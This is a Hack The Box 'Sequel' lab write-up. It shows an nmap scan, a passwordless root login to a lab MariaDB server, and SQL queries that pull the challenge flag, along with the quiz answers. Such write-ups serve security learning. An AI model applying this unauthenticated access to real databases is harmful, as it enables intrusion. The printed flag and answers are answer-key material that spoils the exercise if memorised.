 # Sequel
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Sequel
* Topic: [[SQL]]
* Difficulty: Very easy
* Date: 12-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. What does the acronym SQL stand for? 
 - **Structured Query Language**
2. During our scan, which port running mysql do we find? 
- **3306**
3. What community-developed MySQL version is the target running? 
- **MariaDB**
4. What switch do we need to use in order to specify a login username for the MySQL service? 
- **-u**
5. Which username allows us to log into MariaDB without providing a password? 
- **root**
6. What symbol can we use to specify within the query that we want to display everything inside a table? 
- \*
7. What symbol do we need to end each query with? 
- **;**

---
## Flag:
Nmap scan:

```console
┌──(kali㉿kali)-[~]
└─$ nmap -n -sC -sV 10.129.95.232
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-15 17:36 EDT
Nmap scan report for 10.129.95.232
Host is up (0.065s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 67
|   Capabilities flags: 63486
|   Some Capabilities: SupportsTransactions, SupportsCompression, Speaks41ProtocolOld, DontAllowDatabaseTableColumn, Support41Auth, FoundRows, SupportsLoadDataLocal, IgnoreSigpipes, InteractiveClient, Speaks41ProtocolNew, ODBCClient, LongColumnFlag, ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: 4:fr+{OVC.YY0$bEn|D|
|_  Auth Plugin Name: mysql_native_password
|_sslv2: ERROR: Script execution failed (use -d to debug)

Nmap done: 1 IP address (1 host up) scanned in 205.29 seconds
```

MyQSL is running on port x. We can connect using `mysql`.

Command:

`mysql -h 10.129.148.58 -u root`

`-h`: Connect to host {IP}.

`-u`: Log on as user {user}.

```console
┌──(kali㉿kali)-[~]
└─$ mysql -h 10.129.148.58 -u root
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 225
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
```

`show databases;` to print the contents of the database.

Remember the `;` at the end of the command.

```
MariaDB [(none)]> show databases;

+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.067 sec)
```

`use htb;` to select table 'htb'.

```
MariaDB [(none)]> use htb;

Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```

`show tables;` to show the contents of the table.

```
MariaDB [htb]> show tables;

+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.064 sec)
```

`select * from config;` show all entries in the 'config' table.

```
MariaDB [htb]> select * from config;

+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.063 sec)
```

And we got the flag!

**Flag:** `7b4bec00d1a39e3dd4e021ec3d915da8`

---
**Tags:** [[HackTheBox]] [[MariaDB]]